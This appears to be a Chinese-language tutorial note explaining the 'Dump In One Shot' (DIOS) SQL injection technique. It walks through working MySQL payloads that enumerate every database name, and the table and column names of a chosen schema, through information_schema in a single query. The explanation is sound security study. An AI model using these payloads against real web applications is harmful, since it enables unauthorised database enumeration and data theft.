




在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

# 获取所有数据库名：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接这3个参数的值  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in (1,2,3)从表y中选择字段x，然后x的值范围是（1,2,3）  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
  

# 获取指定数据库的全部表名和字段名
```
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(table_schema='anyisec')and(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a);
```
  

参考链接：  
http://blog.dreamfever.me/2016/04/20/dump-in-one-shot/  
http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html  
http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-2.html  
http://securityidiots.com/Web-Pentest/SQL-Injection/DIOS-the-SQL-Injectors-Weapon-Upgraded.html
